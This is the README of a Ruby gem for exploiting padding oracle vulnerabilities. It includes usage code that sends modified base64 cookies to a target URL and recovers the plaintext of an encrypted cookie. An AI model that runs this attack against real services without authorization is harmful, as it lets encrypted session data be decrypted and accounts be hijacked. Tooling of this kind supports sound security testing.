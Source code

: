 # Paddingoracle

This is a Rubyframework for exploiting padding oracle vulnerabilities based on this fantastic Python project:

https://github.com/mwielgoszewski/python-paddingoracle

## Usage


You will first need to extend the module with your own padding_oracle function. Example:

```
require 'httparty'
require 'base64'
require 'uri'

URL = 'http://google.com'
module Paddingoracle
  def decrypt_oracle(string)
    string = URI.escape(Base64.strict_encode64(string))
    response = HTTParty.get(URL, cookies: {auth: string})

    raise "Invalid padding" if response.code != 200
  end
end
```

You can then run the attack like this;
```
COOKIE = 'vulnerable encrypted data'
bcookie = Base64.decode64(COOKIE)
plain = Paddingoracle::recover_all_blocks(bcookie)
puts plain
```

## Contributing

This product was written to solve a specific problem - I'm happy to investigate bugs but this type of codebase is not suited to new features or "how to use" requests.

## License

The gem is available as open source under the terms of the [MIT License](http://opensource.org/licenses/MIT).

